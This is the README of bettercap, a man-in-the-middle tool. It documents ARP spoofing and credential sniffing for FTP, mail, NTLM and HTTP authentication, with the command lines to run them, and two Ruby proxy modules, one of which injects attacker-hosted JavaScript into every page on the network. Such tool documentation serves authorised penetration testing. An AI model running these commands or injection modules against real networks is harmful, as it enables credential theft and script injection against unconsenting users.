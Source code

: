 BETTERCAP
==

Copyleft of **Simone 'evilsocket' Margaritelli**.  
http://www.evilsocket.net/

http://www.bettercap.org/
---

**bettercap** is a complete, modular, portable and easily extensible **MITM** tool and framework with every kind of diagnostic
and offensive feature you could need in order to perform a man in the middle attack.

MOTIVATIONS
===

> Yet another MITM tool? C'mon, really?!!?

This is exactly what you are thinking right now, isn't it? :D
But allow yourself to think about it for 5 more minutes ... what you should be really asking is:

> Does a complete, modular, portable and easy to extend MITM tool actually exist?

If your answer is "ettercap", let me tell you something:

* ettercap **was** a great tool, but it made its time.
* ettercap filters **do not** work most of the times, are outdated and hard to implement due to the specific language they're implemented in.
* ettercap is freaking **unstable** on big networks ... try to launch the host discovery on a bigger network rather than the usual /24 ;)
* yeah you can see connections and raw pcap stuff, **nice toy**, but **as a professional researcher I want to see only relevant stuff**.
* unless you're a C/C++ developer, you can't easily extend ettercap or make your own module.

Indeed you could use more than just one tool ... maybe [arpspoof](http://linux.die.net/man/8/arpspoof) to perform the actual poisoning, [mitmproxy](http://mitmproxy.org) to intercept HTTP stuff and inject your payloads and so forth ... I don't know about you, but I **hate** when I need to use a dozen of tools just to perform one single attack, especially when I need to do some black magic in order to make all of them work on my distro or on OSX ... what about the [KISS](https://en.wikipedia.org/wiki/KISS_principle) principle?

So **bettercap** was born ( isn't the name pure genius? XD ) ...

HOST DISCOVERY + ARP MAN IN THE MIDDLE
=== 

You can target the whole network or a single known address, it doesn't really matter, bettercap arp spoofing capabilities and its multiple hosts discovery agents will do the dirty work for you.  
Just launch the tool and wait for it to do its job ... again, [KISS!](https://en.wikipedia.org/wiki/KISS_principle)

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/discovery.png)

CREDENTIALS SNIFFER
===

The built in sniffer is currently able to dissect and print from the network the following informations:

- URLs being visited.
- HTTPS host being visited.
- HTTP POSTed data.
- HTTP Basic and Digest authentications.
- FTP credentials.
- IRC credentials.
- POP, IMAP and SMTP credentials.
- NTLMv1/v2 ( HTTP, SMB, LDAP, etc ) credentials.

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/credentials.png)

**Examples**

Default sniffer mode, all parsers enabled:
    
    sudo bettercap -X
    
Enable sniffer and load only specified parsers:
    
    sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

Enable sniffer + all parsers and parse local traffic as well:
    
    sudo bettercap -X -L
    
MODULAR TRANSPARENT PROXY
===

A modular transparent proxy can be started with the --proxy argument, by default it won't do anything 
but logging HTTP requests, but if you specify a **--proxy-module** argument you will be able to load
your own modules and manipulate HTTP traffic as you like.  

![credentials](https://raw.github.com/evilsocket/bettercap/master/pics/proxy.png)

**Examples**

Enable proxy on default ( 8080 ) port with no modules ( quite useless ): 
    
    sudo bettercap --proxy

Enable proxy and use a custom port:
    
    sudo bettercap --proxy --proxy-port=8081
    
Enable proxy and load the module **example_proxy_module.rb**:
    
    sudo bettercap --proxy --proxy-module=example_proxy_module.rb

Disable spoofer and enable proxy ( stand alone proxy mode ):

    sudo bettercap -S NONE --proxy

**Modules**

You can easily implement a module to inject data into pages or just inspect the
requests/responses creating a ruby file and passing it to bettercap with the --proxy-module argument, 
the following is a sample module that injects some contents into the title tag of each html page.

```ruby
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end
```

BUILTIN HTTP SERVER
===

You want to serve your custom javascript files on the network? Maybe you wanna inject some custom
script or image into HTTP responses using a transparent proxy module but you got no public server
to use? **no worries dude** :D  
A builtin HTTP server comes with bettercap, allowing you to serve custom contents from your own
machine without installing and configuring other softwares such as Apache, nginx or lighttpd. 

You could use a **proxy module** like the following:

```ruby
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.iface[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "<script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script></title>" )
    end
  end
end
```

And then use it to inject the js file in every HTTP response of the network, using bettercap itself
to serve the file:

    sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb 

HOW TO INSTALL
===

**Stable Release ( GEM )**
    
    gem install bettercap
    
**From Source**
    
    git clone https://github.com/evilsocket/bettercap
    cd bettercap
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

DEPENDS
===

All dependencies will be automatically installed through the GEM system.

- colorize (**gem install colorize**)
- packetfu (**gem install packetfu**)
- pcaprub  (**gem install pcaprub**) [sudo apt-get install ruby-dev libpcap-dev]